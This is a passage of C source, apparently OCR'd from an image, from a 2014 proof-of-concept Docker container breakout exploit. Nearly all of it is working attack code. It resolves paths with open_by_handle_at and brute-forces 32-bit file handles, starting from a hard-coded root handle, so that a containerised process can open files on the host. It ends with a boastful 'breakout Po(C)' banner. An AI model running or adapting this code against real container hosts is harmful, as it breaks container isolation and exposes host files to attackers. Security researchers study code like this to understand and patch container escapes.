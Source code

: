 ```
    oh -> handle_bytes = 8;  
    return 1;  
  }  
  ++path;  
  fprintf(stderr, "[*] Resolving '%s'\n", path);  
  if ((fd = open_by_handle_at(bfd, (struct file_handle * ) ih, O_RDONLY)) < 0)  
    die("[-] open_by_handle_at");  
  if ((dir = fdopendir(fd)) == NULL)  
    die("[-] fdopendir");  
  for (;;) {  
    de = readdir(dir);  
    if (!de)  
      break;  
    fprintf(stderr, "[*] Found %s\n", de -> d_name);  
    if (strncmp(de -> d_name, path, strlen(de -> d_name)) == 0) {  
      fprintf(stderr, "[+] Match: %s ino=%d\n", de -> d_name, (int) de -> d_ino);  
      ino = de -> d_ino;  
      break;  
    }  
  }  
  fprintf(stderr, "[*] Brute forcing remaining 32bit. This can take a while...\n");  
  if (de) {  
    for (uint32_t i = 0; i < 0xffffffff; ++i) {  
      outh.handle_bytes = 8;  
      outh.handle_type = 1;  
      memcpy(outh.f_handle, & ino, sizeof(ino));  
      memcpy(outh.f_handle + 4, & i, sizeof(i));  
      if ((i % (1 << 20)) == 0)  
        fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de -> d_name, i);  
      if (open_by_handle_at(bfd, (struct file_handle * ) & outh, 0) > 0) {  
        closedir(dir);  
        close(fd);  
        dump_handle( & outh);  
        return find_handle(bfd, path, & outh, oh);  
      }  
    }  
  }  
  closedir(dir);  
  close(fd);  
  return 0;  
}  
int main(int argc, char * argv[]) {  
  char buf[0x1000];  
  int fd1, fd2;  
  struct my_file_handle h;  
  struct my_file_handle root_h = {  
    .handle_bytes = 8,  
    .handle_type = 1,  
    .f_handle = {  
      0x02,  
      0,  
      0,  
      0,  
      0,  
      0,  
      0,  
      0  
    }  
  };  
  fprintf(stderr, "[***] docker VMM-container breakout Po(C) 2014 [***]\n"  
    "[***] The tea from the 90's kicks your sekurity again. [***]\n"  
    "[***] If you have pending sec consulting, I'll happily [***]\n"  
    "[***] forward to my friends who drink secury-tea too! [***]\n\n<enter>\n");  
```